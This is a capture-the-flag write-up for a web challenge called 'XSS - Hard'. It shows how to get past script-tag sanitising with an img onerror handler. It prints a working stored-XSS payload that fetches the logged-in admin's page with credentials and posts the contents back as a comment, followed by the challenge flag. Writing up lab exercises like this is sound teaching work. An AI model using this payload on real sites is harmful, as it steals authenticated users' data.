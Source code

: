 # XSS - Hard
Category: Web

## Description
The admin has tried even harder to block JS on the blog.

Can you get the flag from the admin user? He's logged on right now

## Write-up
- Continuing from the [`XSS - Easy`](../xss-easy/README.md) and [`XSS - Medium`](../xss-medium/README.md) challenges, we are no longer able to create comments with `<script>` tags as they get sanitized.
- However, we can still invoke JavaScript logic through the `<img>` tag's `onerror` event handler.
- Our payload should contain an `<img>` tag that points to an invalid URL, triggering the `onerror` event and invoking our malicious logic from the [`XSS - Medium`](../xss-medium/README.md) challenge.
- An example of the payload is:
```
<img src=x onerror="fetch('/admin', {credentials:'include'}).then(res => res.text()).then(res => { let formData = new FormData(); formData.append('name', 'testing'); formData.append('comment', res); fetch('/new-comment', {method: 'POST', body:formData})});" />
```
- After submitting our payload, we can refresh the page and view the flag in one of the blog post's comments.

Flag: `punk_{RGQXJ27QYW15L7TJ}`
